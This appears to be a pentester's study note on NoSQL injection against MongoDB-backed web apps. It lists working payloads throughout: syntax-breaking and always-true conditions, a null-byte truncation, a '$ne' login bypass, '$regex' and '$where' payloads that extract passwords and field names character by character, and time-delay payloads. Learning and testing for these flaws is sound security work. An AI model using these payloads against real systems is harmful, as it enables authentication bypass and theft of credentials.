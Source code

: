 # NoSQL injection

<details>

<summary>Introduction to NoSQL databases</summary>

**NoSQL databases**

* They are designed to handle large volumes of unstructured or semi-structured data.
  * benefits in terms of scalability, flexibility, and performance
* Like SQL databases, users interact with data in NoSQL databases using queries but many NoSQL databases use a wide range of query languages instead of a universal standard like SQL (ex. JSON, XML)

**NoSQL database models**

* Document stores - These store data in flexible, semi-structured documents. They typically use formats such as JSON, BSON, and XML, and are queried in an API or query language. Examples include MongoDB and Couchbase.
* Key-value stores - These store data in a key-value format. Each data field is associated with a unique key string. Values are retrieved based on the unique key. Examples include Redis and Amazon DynamoDB.
* Wide-column stores - These organize related data into flexible column families rather than traditional rows. Examples include Apache Cassandra and Apache HBase.
* Graph databases - These use nodes to store data entities, and edges to store relationships between entities. Examples include Neo4j and Amazon Neptune.

</details>

### <mark style="color:yellow;">Types of NoSQL injection</mark> <a href="#types-of-nosql-injection" id="types-of-nosql-injection"></a>

1. Syntax injection - when you can break the NoSQL query syntax, enabling the injection (likeSQLi).
2. Operator injection - when you can use NoSQL query operators to manipulate queries.

## <mark style="color:yellow;">NoSQL syntax injection</mark> <a href="#nosql-syntax-injection" id="nosql-syntax-injection"></a>

* Consider: `https://insecure-website.com/product/lookup?category=fizzy`
* This causes the application to send a JSON query to retrieve relevant products from the `product` collection in the MongoDB database:
  * `this.category == 'fizzy'`
* Inject: `'` -> `this.category == '''`
  * If this causes a change from the original response, this may indicate that the `'` character has broken the query syntax and caused a syntax error.&#x20;
* Confirm this by submitting a valid query string in the input, e.g.: `\'` -> `this.category == '\''`
  * If this doesn't cause a syntax error, this may mean that the application is vulnerable to an injection attack.

### <mark style="color:yellow;">**Confirming conditional behavior**</mark>

```sh
# False condition
' && 0 && 'x
' && '1'=='2

# True condition
' && 1 && 'x 
' && '1'=='1
```

```
https://insecure-website.com/product/lookup?category=fizzy'+%26%26+0+%26%26+'x
https://insecure-website.com/product/lookup?category=fizzy'+%26%26+1+%26%26+'x
```

If the application behaves differently suggests that the false condition impacts the query logic, but the true condition doesn't.

### <mark style="color:yellow;">**Overriding existing conditions**</mark>

```sh
# Always true: 
'||1||'
'||'1'=='1'

# Inject: fizzy'||1||'
https://insecure-website.com/product/lookup?category=fizzy%27%7c%7c%31%7c%7c%27

# Back-end code
this.category == 'fizzy'||1||''
```

The modified query returns all items (all the products in any category).

{% hint style="warning" %}
**Warn**: If an application uses it when updating or deleting data, for example, this can result in accidental data loss.
{% endhint %}

**Null character**

MongoDB may ignore all characters after a null character. This means that any additional conditions on the MongoDB query are ignored.

```sh
# Back-end code
this.category == 'fizzy' && this.released == 1

# Inject null char
https://insecure-website.com/product/lookup?category=fizzy'%00

# Back-end code result [removes the req for the released field to be set to 1]
this.category == 'fizzy'\u0000' && this.released == 1
```

## <mark style="color:yellow;">NoSQL operator injection</mark>

<details>

<summary>Examples of MongoDB query operators</summary>

* `$where` - Matches documents that satisfy a JavaScript expression.

<!---->

* `$ne` - Matches all values that are not equal to a specified value.

<!---->

* `$in` - Matches all of the values specified in an array.

<!---->

* `$regex` - Selects documents where values match a specified regular expression.



MongoDB Query and Projection Operators: [https://www.mongodb.com/docs/manual/reference/operator/query/](https://www.mongodb.com/docs/manual/reference/operator/query/)

</details>

* JSON example:
  * `{"username":"wiener"}` -> `{"username":{"$ne":"invalid"}}`
* URL parameters:
  * `username=wiener` -> `username[$ne]=invalid`

***

* If this doesn't work, you can try the following (or use Content Type Converter burp exts):
  1. Convert the request method from `GET` to `POST`.
  2. Change the `Content-Type` header to `application/json`.
  3. Add JSON to the message body.
  4. Inject query operators in the JSON.

### <mark style="color:yellow;">**Testing**</mark>

```sh
# Login bypass
{"username":"bob","password":{"$ne":"invalid"}}

# Guess with usernames list
{"username":{"$in":["admin","administrator","superadmin"]},"password":{"$ne":""}}

# Guess with regex
{"username":{"$regex":"^adm"},"password":{"$ne":""}}
```

**Other tests**

* Example:`{"username":"wiener","password":"peter"}`
* `{"username":{"$ne":"invalid"},"password":{"$ne":"invalid"}}`
* This query returns all login credentials where both the username and password are not equal to `invalid`. As a result, you're logged into the application as the first user in the collection.

## <mark style="color:yellow;">Extract data</mark>

**INSIDE $WHERE**

* Consider `https://insecure-website.com/user/lookup?username=admin`
* This results in the following NoSQL query of the `users` collection: `{"$where":"this.username == 'admin'"}`
* As the query uses the `$where` operator, you can attempt to inject JavaScript functions.
  * `admin' && this.password[0] == 'a' || 'a'=='b`
    * This returns the first character of the user's password string. You can go on...
  * `admin' && this.password.match(/\d/) || 'a'=='b`
    * Identify whether the password contains digits

***

**INJECT OPERATOR (where)**

* Consider `{"username":"wiener","password":"peter"}`
* Add `$where` operator as an additional parameter. Send one true request and one false request.
  * `{"username":"wiener","password":"peter", "$where":"0"}`
  * `{"username":"wiener","password":"peter", "$where":"1"}`
  * Different responses? This may indicate that the JavaScript expression in the `$where` clause is being evaluated

***

**INJECT OPERATOR (regex)**

* Consider `{"username":"myuser","password":"mypass"}`
  * `{"username":"myuser","password":"incorrect"}` (incorrect password)
  * `{"username":"admin","password":{"$regex":"^.*"}}`
  * Different responses? The app may be vulnerable
* `{"username":"admin","password":{"$regex":"^a*"}}`
  * Extract data character by character

## <mark style="color:yellow;">Identify field names</mark>

**FIRST WAY**

* Send the payload for an existing field and for a field that doesn't exist.&#x20;
* Example
  * `admin' && this.username!='` (you know `username` field exists)
  * `admin' && this.foo!='` (you know `foo` field doesn't exist)
  * `admin' && this.password!='` (you want identify `password` field)
    * `https://insecure-website.com/user/lookup?username=admin'+%26%26+this.password!%3d'`
* If the `password` field exists, you'd expect the response to be identical to the response for the existing field (`username`), but different to the response for the field that doesn't exist (`foo`).

***

**SECOND WAY**

* You can inject operator?
  * `"$where":"Object.keys(this)[0].match('^.{0}a.*')"`
  * This query selects documents where the first key (field) of the document starts with the letter "a". You can extract the field name char by char

<details>

<summary>Example</summary>

```json
{
"username":"test",
"$where":"Object.keys(this)[§1§].match('^.{0}§u§.*')"
}
```

With intruder set: 1 payload: numbers, 2 payload: bruteforce chars.



You have :&#x20;

```json
[
    { "apple": "fruit", "color": "red" },
    { "banana": "fruit", "color": "yellow" },
    { "avocado": "fruit", "color": "green" },
    { "berry": "fruit", "color": "blue" }
]
```

Query

```javascript
db.collection.find({ "$where": "Object.keys(this)[0].match('^.{0}a.*')" })
```

```json
[
    { "apple": "fruit", "color": "red" },
    { "avocado": "fruit", "color": "green" }
]
```

</details>

## <mark style="color:yellow;">Timing based injection</mark>

Database error doesn't cause a difference in the application's response? Trigger a conditional time delay

1. Load the page several times to determine a baseline loading time.
2. Insert a timing based payload into the input. Example `{"$where": "sleep(5000)"}`
3. Identify whether the response loads more slowly

* Trigger a time delay if the password beings with the letter `a`
  * `admin'+function(x){var waitTill = new Date(new Date().getTime() + 5000);while((x.password[0]==="a") && waitTill > new Date()){};}(this)+'`
  * `admin'+function(x){if(x.password[0]==="a"){sleep(5000)};}(this)+'`
